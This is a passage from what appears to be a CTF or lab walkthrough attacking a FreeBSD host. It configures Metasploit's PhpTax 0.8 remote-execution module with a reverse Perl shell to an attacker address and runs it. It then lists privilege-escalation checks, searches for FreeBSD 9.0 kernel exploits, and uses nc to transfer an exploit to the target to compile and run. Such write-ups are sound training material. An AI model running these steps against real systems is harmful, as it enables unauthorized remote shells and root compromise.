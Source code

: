 ```

Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.123.15   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PhpTax 0.8



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/phptax_exec) > run
```

### priv-esca

after getting a user priv shell (www), enum:

- sudo -l [x]
- suid, guid [x]
- crontab [x]
- passwd, shadow [x]
- freebsd kernel priv esca

```bash
$ searchsploit freebsd 9.0
FreeBSD 9.0 - Intel SYSRET Kernel Privilege Escalation            | freebsd/local/28718.c
FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation      | freebsd/local/26368.c

# on host
nc -lvnp 1234 < 26368.c
# on remote
nc 192.168.123.15 1234 > 26368.c
gcc 26368.c
./a.out
```
